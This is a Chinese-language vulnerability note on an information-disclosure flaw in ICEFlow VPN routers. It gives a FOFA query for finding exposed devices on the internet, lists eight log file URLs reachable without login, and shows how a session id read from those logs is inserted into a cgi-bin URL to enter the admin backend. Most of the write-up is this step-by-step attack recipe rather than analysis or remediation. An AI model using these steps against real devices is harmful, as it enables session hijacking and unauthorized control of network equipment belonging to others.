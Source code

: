 # ICEFlow VPN log 信息泄露漏洞

## 漏洞描述

ICEFlow VPN 存在信息泄露漏洞，攻击者可以查看日志中的敏感数据来进一步攻击系统

## 漏洞影响

<a-checkbox checked>ICEFlow VPN</a-checkbox></br>

## FOFA

<a-checkbox checked>title="ICEFLOW VPN Router"</a-checkbox></br>

## 漏洞复现

可访问的日志 Url

```plain
系统日志    http://url/log/system.log
VPN日志    http://url/log/vpn.log
访问日志	http://url/log/access.log
告警日志	http://url/log/warn.log
错误日志	http://url/log/error.log
调试日志	http://url/log1/debug.log
移动用户日志 http://url/log/mobile.log
防火墙日志	http://url/log/firewall.log
```

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313133204051.png)



根据日志信息获得session后，可利用实时登录系统管理后台：

```plain
http://xxx.xxx.xxx.xxx/cgi-bin/index?oid=10&session_id=xxxxxxxxxxxxxx&l=0
```

